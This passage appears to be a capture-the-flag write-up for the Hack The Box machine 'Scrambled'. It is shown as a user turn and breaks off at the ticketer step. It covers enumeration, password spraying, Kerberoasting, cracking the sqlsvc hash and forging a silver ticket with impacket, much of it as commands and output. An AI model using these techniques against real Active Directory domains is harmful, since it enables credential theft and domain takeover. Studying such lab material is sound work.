








USER
Step 1 - Basic enumeration
nmap:
➜ scrambled nmap -Pn -n -p- 10.10.11.168
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
1433/tcp open ms-sql-s
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
4411/tcp open found
5985/tcp open wsman
9389/tcp open adws
49667/tcp open unknown
49673/tcp open unknown
49674/tcp open unknown
49700/tcp open unknown
49704/tcp open unknown
➜ scrambled nmap -Pn -n -sCV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49700,49704 10.10.11.168
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-09-15 07:32:05Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-09-15T07:35:12+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after: 2023-06-09T15:30:57
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after: 2023-06-09T15:30:57
|_ssl-date: 2022-09-15T07:35:12+00:00; 0s from scanner time.
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-09-15T07:27:07
|_Not valid after: 2052-09-15T07:27:07
|_ssl-date: 2022-09-15T07:35:12+00:00; 0s from scanner time.
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after: 2023-06-09T15:30:57
|_ssl-date: 2022-09-15T07:35:12+00:00; 0s from scanner time.
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after: 2023-06-09T15:30:57
|_ssl-date: 2022-09-15T07:35:12+00:00; 0s from scanner time.
4411/tcp open found?
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
| SCRAMBLECORP_ORDERS_V1.0.3;
| FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions:
| SCRAMBLECORP_ORDERS_V1.0.3;
|_ ERROR_UNKNOWN_COMMAND;
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49700/tcp open msrpc Microsoft Windows RPC
49704/tcp open msrpc Microsoft Windows RPC
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
| smb2-time:
| date: 2022-09-15T07:34:34
|_ start_date: N/A
| ms-sql-info:
| 10.10.11.168:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433port 80: 
Under the tab IT Services we find this message: > “04/09/2021: Due to the security breach last month we have now disabled all NTLM authentication on our network. This may cause problems for some of the programs you use so please be patient while we work to resolve any issues”
/supportrequest.html gives us few more details:
Dial extension 0866 to reach support, might be useful if there are any VoIP elements
Support email is
support@scramblecorp.comadd domain to/etc/hostsWe also find the user
ksimpsonfrom the cmd image:

We can request a user account for new employees at /newuser.html, this might be a possible vector for XSS/CSRF/SSRF attacks.
/salesorders.html shows us how to enable debugging for the sales order app. Possible that we can extract sensitive information from the app.
/passwords.html gives us a huge piece of information, passwords might be set to be the same as username:
“Our self service password reset system will be up and running soon but in the meantime please call the IT support line and we will reset your password. If no one is available please leave a message stating your username and we will reset your password to be the same as the username.”
port 4411: This port stands out and isn’t anything standard. We’re able to connect to it unauthenticated but we don’t know any commands available.
➜ scrambled nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
help
ERROR_UNKNOWN_COMMAND;
HELP
ERROR_UNKNOWN_COMMAND;
h
ERROR_UNKNOWN_COMMAND;
?
ERROR_UNKNOWN_COMMAND;
list
ERROR_UNKNOWN_COMMAND;
show
ERROR_UNKNOWN_COMMAND;
dirLets move on and keep this port in mind for a later stage.
port 139/445:
➜ scrambled rpcclient -U "" 10.10.11.168
Enter WORKGROUP\'s password:
Cannot connect to server. Error was NT_STATUS_NOT_SUPPORTED
➜ scrambled rpcclient -U ksimpson 10.10.11.168
Enter WORKGROUP\ksimpsons password:
Cannot connect to server. Error was NT_STATUS_NOT_SUPPORTED
➜ scrambled nbtscan -r 10.10.11.168
Doing NBT name scan for addresses from 10.10.11.168
IP address NetBIOS Name Server User MAC address
------------------------------------------------------------------------------
➜ scrambled smbclient -L 10.10.11.168
Enter WORKGROUP\void password:
session setup failed: NT_STATUS_NOT_SUPPORTED
➜ scrambled smbclient -U ksimpson -L 10.10.11.168
Enter WORKGROUP\ksimpsons password:
session setup failed: NT_STATUS_NOT_SUPPORTED
➜ scrambled smbmap -H 10.10.11.168
[!] Authentication error on 10.10.11.168
➜ scrambled smbmap -H 10.10.11.168
[!] Authentication error on 10.10.11.168
➜ scrambled crackmapexec smb 10.10.11.168 -u '' -p '' --shares
SMB 10.10.11.168 445 NONE [*] x64 (name:) (domain:) (signing:True) (SMBv1:False)
SMB 10.10.11.168 445 NONE [-] \: STATUS_NOT_SUPPORTED
SMB 10.10.11.168 445 NONE [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)port 135:
➜ scrambled impacket-rpcdump 10.10.11.168 > rpcdump.out
➜ scrambled cat rpcdump.out| grep -i pipe
ncacn_np:\\DC1[\PIPE\InitShutdown]
ncacn_np:\\DC1[\PIPE\InitShutdown]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\eventlog]
ncacn_np:\\DC1[\pipe\26bddf8e29d9b793]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\26bddf8e29d9b793]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\26bddf8e29d9b793]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\26bddf8e29d9b793]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\26bddf8e29d9b793]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\pipe\lsass]
ncacn_np:\\DC1[\PIPE\atsvc]
ncacn_np:\\DC1[\PIPE\atsvc]
ncacn_np:\\DC1[\PIPE\atsvc]
ncacn_np:\\DC1[\PIPE\atsvc]
ncacn_np:\\DC1[\PIPE\atsvc]
ncacn_np:\\DC1[\PIPE\wkssvc]
ncacn_np:\\DC1[\pipe\tapsrv]
ncacn_np:\\DC1[\PIPE\ROUTER]
ncacn_np:\\DC1[\pipe\cert]Reading on HackTricks \pipe\atsvc is listed as Notable RPC interfaces with the description “Task scheduler, used to remotely execute commands”. Verifying with the IFID value we can confirm that the Task Scheduler is exposed:
➜ scrambled grep -ia2 "1ff70682-0a51-30e8-076d-740be8cee98b" rpcdump.out
Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol
Provider: taskcomp.dll
UUID : 1FF70682-0A51-30E8-076D-740BE8CEE98B v1.0
Bindings:
ncacn_np:\\DC1[\PIPE\atsvc]Trying to continue down this road I get stuck and I’m unable to bind using NCACN_IP_TCP, lets move on.
➜ scrambled impacket-rpcmap 'ncacn_ip_tcp:10.10.11.168'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] Protocol failed: Bind context rejected: invalid_checksumport 389/636/3268/3269:
➜ scrambled ldapsearch -x -H ldap://10.10.11.168 -D '' -w '' -b "DC=scrm,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v4563
# numResponses: 1
➜ scrambled ldapsearch -H ldap://10.10.11.168 -x
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v4563
# numResponses: 1port 9389:
➜ scrambled nc 10.10.11.168 9389
helpport 53:
➜ scrambled host -t axfr scrm.local 10.10.11.168
Trying "scrm.local"
Using domain server:
Name: 10.10.11.168
Address: 10.10.11.168#53
Aliases:
Host scrm.local not found: 5(REFUSED)
; Transfer failed.
➜ scrambled dig axfr scrm.local @10.10.11.168
; <<>> DiG 9.18.1-1-Debian <<>> axfr scrm.local @10.10.11.168
;; global options: +cmd
; Transfer failed.Step 2 - Kerberoast
With all the “normal” enumeration coming up short, I decide to dig deeper into the hints from the webpage especially username and password being the same. We have the user ksimpson, lets try if his password is set to be the same.
➜ /opt ./kerbrute_linux_amd64 passwordspray -d scrm.local --dc 10.10.11.168 /home/void/htb/scrambled/users.txt ksimpson
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 09/15/22 - Ronnie Flathers @ropnop
2022/09/15 11:21:19 > Using KDC(s):
2022/09/15 11:21:19 > 10.10.11.168:88
2022/09/15 11:21:19 > [+] VALID LOGIN: ksimpson@scrm.local:ksimpsonTesting Kerberoast fails:
➜ scrambled impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] ("Unpacked data doesn't match constant value 'b''' should be ''NTLMSSP\\x00''", 'When unpacking field \' | "NTLMSSP\x00 | b\'\'[:8]\'')Testing ASREPRoast fails:
➜ scrambled impacket-GetNPUsers scrm.local/ -usersfile users.txt -format hashcat
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ksimpson doesn't have UF_DONT_REQUIRE_PREAUTH setTesting the credentials over SMB, WinRM and LDAP all fails as well.. I was stuck at this point for a while. Reviewing the enumerated data it finally clicked, all NTML authentication has been disabled. Instead lets try to generate a TGT and use that to authenticate instead.
➜ scrambled impacket-getTGT scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in ksimpson.ccacheExport the ticket and lets try to Kerberoast again:
➜ scrambled export KRB5CCNAME=ksimpson.ccache
➜ scrambled impacket-GetUserSPNs scrm.local/ksimpson -k -no-pass -request -dc-ip 10.10.11.168
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] exceptions must derive from BaseExceptionI’ve never seen this error before. Researching about it I find this git issue made by the box creator, VbScrub, explaining the issue. This has since been patched and they’ve added the flag -dc-host to mitigate the issue. Download the fresh script and run with -dc-host flag:
➜ scrambled wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
➜ scrambled python GetUserSPNs.py scrm.local/ksimpson -k -no-pass -dc-ip 10.10.11.168 -dc-host dc1.scrm.local -request -outputfile krb.hash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
---------------------------- ------ -------- -------------------------- -------------------------- ----------
MSSQLSvc/dc1.scrm.local:1433 sqlsvc 2021-11-03 17:32:02.351452 2022-09-15 09:27:04.762825
MSSQLSvc/dc1.scrm.local sqlsvc 2021-11-03 17:32:02.351452 2022-09-15 09:27:04.762825
➜ scrambled cat krb.hash
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$4b6ea2059c13cd55ea179c99769420a2$d6a24837673cc0774a4f9ff2037dcc4d9673e58d019f87e1559ff71237f0af0bb2ece0909fbe34da3ec1374722d8252cec867d193454c3f3ed07bec39662318bdc1c538969b19ec0647a924fc9d927e0bb92f796426a7df56e2127b9db9f12f8a78fa5ae6f15524c1849567b2a2d756358891a514ef9ec50cc8fd8e494420e34be9de2df5002f69f38c75a5638ab7a1bb0f3f67a04e9247813381ce075cc2ac7d6388dedc3f2106b3eb029b019793333160cee7014499c1c4da9400ac84404d6671378d808cf6ad9962f7bc4de7a9e1082b064af72ba4aef26d5a15f3289a03f3edbde1a5b94ceba24ef98f18a316301fc5b5bd76d23056d8d6217a8b3684f07db2255f8fc733f570ef228021b373312c2325a0e3b203b3bd2ad0b408630ae2597458b9c70a9edd0b29810b3263664cd447dc139bbedf64dc6fe1a0473202569abc3837ffa15d4d199d63d476afd10db6ef64a187976b5e0713d225adac86360f937b97b5be092e167633b60e7eb3b3266e5bd9ababf1aac068248f2dce6f9c2f2fe2c45958f0d41c722c3734e4dcde7b8e90a3a0d39ed5ba02801a66f76bc7e63d85b62f3b8c823a0169cba9b019d11ea31170c6e6afe4a1f5ad122953b8f7debf980b88505914f0193235be2a082fea598052a99475e6ee717aa75deb1560b4dee38d4c5a95ef9c98212b39493506cea39aa07808995e4ddd19ef96339d33df09b72d7b57c98aa2c53e43ba4062e71897228df12bce7c0ff6bc9d0ddb01c873ee760700a9aee6ffa5cc84307938d14d81ef55ffe369b807da870c2d99dbe51c78fadbcbf4affbb749e3d8ef165da194a1218d3d0616771c7c059350b65a7bbd8cf56684e86e721b9ebac1459c50d0ff49c2ca5ab75122d22c9be24e97d4e4e520e278dd0b2ee34ce070e1feb49626c279e27c18e94a29bddd777491bcd1559285c5e39064def9aacbeae5bb1172c552538d6d421360eb6af3ba2c846a6688cce09f0c26535f6ca1caf9bafb0eb1eb935703102b31e0e59436a3dcc1214e222e261637ff50658acc114b7f0442b3c51543a87e359cc58e0854defd6c5470cc048710c97915747a61a8fa750fcf23743500fada571368dfd5fc49e912f69036ab1d9d4326bf03d88f69048c3933c990661f6435227dae066b29486ff046c8e351d4a6e5ca6676ebd2e7eff30aa0a6a7370ca1e816865be8a7146e569e972410175ffeab4ae1571c9e2e423c981663686f9aa591a074237d36f3eca8d6355ebddb29c10c2ecee28c066ba292e25e4a04a4db725083554c7aabea36342a6a01900e018673ec1d2fd6296fc03662f7b085bbdc2b166580a9cdfb682cfe50392f8146fd87357672bc80016f2756e26bb1237b06942357595f2d3d96b9340efa5f371a2f94d709ca1a80dd37cdc89963c3b06d2c2304d0b92f24ed231b3Crack it:
➜ scrambled hashcat -a0 -m13100 krb.hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*sqlsvc$...:Pegasus60
Session..........: hashcat
Status...........: CrackedNotice the username sqlsvc, we’ve just cracked credentials for SQL - sqlsvc:Pegasus60
Step 3 - More secrets
We’ve got a username, TGT and password, meaning now we should be able to enumerate more services. Trying to enumerate SMB with smbclient fails:
➜ scrambled smbclient scrm.local/ksimpson:ksimpson@dc1.scrm.local -k --dc-ip 10.10.11.168
scrm.local\ksimpson:ksimpson@dc1.scrm.local: Not enough '\' characters in serviceHowever, downloading and using smbclient.py works just fine:
➜ scrambled wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbclient.py
➜ scrambled python smbclient.py scrm.local/ksimpson:ksimpson@dc1.scrm.local -k -dc-ip 10.10.11.168
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOLLook around and download potentially interesting files.
# use Sales
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use IT
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use HR
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use Public
# ls
drw-rw-rw- 0 Thu Nov 4 23:23:19 2021 .
drw-rw-rw- 0 Thu Nov 4 23:23:19 2021 ..
-rw-rw-rw- 630106 Fri Nov 5 18:45:07 2021 Network Security Changes.pdf
# get Network Security Changes.pdf
The first vulnerability we already knew about since it was made public on the intranet (port 80), however the SQL information is new. This sounds perfect for us, as we just extracted and cracked the TGT for user sqlsvc - how do we exploit this?
Step 4 - Silvet Ticket
Reading about Silver ticket attacks the requirements are knowledge of:
Domain Name = scrm.local
Domain SID = unknown, should be able to find
Username to impersonate = administrator
krbtgt NTLM hash = not sure, but we have the password
Pegasus60so should be able to generate it
I know we can find Domain SID through rpcclient so lets try that first:
➜ scrambled rpcclient dc1.scrm.local -k --no-pass
Cannot connect to server. Error was NT_STATUS_NO_LOGON_SERVERSImpackets lookupsid don’t have an option to connect using kerberos so that’s a no-go as well..
➜ scrambled impacket-lookupsid scrm.local/ksimpson:ksimpson@dc1.scrm.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Brute forcing SIDs at dc1.scrm.local
[*] StringBinding ncacn_np:dc1.scrm.local[\pipe\lsarpc]
[-] SMB SessionError: STATUS_NOT_SUPPORTED(The request is not supported.)
➜ scrambled impacket-lookupsid scrm.local/sqlsvc:Pegasus60@dc1.scrm.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Brute forcing SIDs at dc1.scrm.local
[*] StringBinding ncacn_np:dc1.scrm.local[\pipe\lsarpc]
[-] SMB SessionError: STATUS_NOT_SUPPORTED(The request is not supported.)Reading about the TGT I find this image:

As shown the TGT contains Privilege Attribute Certificate (PAC) which is used for authorization purposes. The PAC contains user and group membership information, but also the domain SID. We can request PAC for a user from the DC using Impackets getPac script.
➜ scrambled impacket-getPac -targetUser ksimpson scrm.local/ksimpson:ksimpson
[... snip ...]
Domain SID: S-1-5-21-2743207045-1827831105-2542523200
➜ scrambled impacket-getPac -targetUser sqlsvc scrm.local/sqlsvc:Pegasus60
[... snip ...]
Domain SID: S-1-5-21-2743207045-1827831105-2542523200Lastly we need the NTLM hash, simply generate it with what ever online generator you find. Pegasus60 -> B999A16500B87D17EC7F2E2A68778F05
To make a summary we now have everything to create our ticket:
Domain Name = scrm.local
Domain SID = S-1-5-21-2743207045-1827831105-2542523200
Username to impersonate = administrator
krbtgt NTLM hash = B999A16500B87D17EC7F2E2A68778F05
➜ scrambled impacket-ticketer -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -user-id 500 Administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
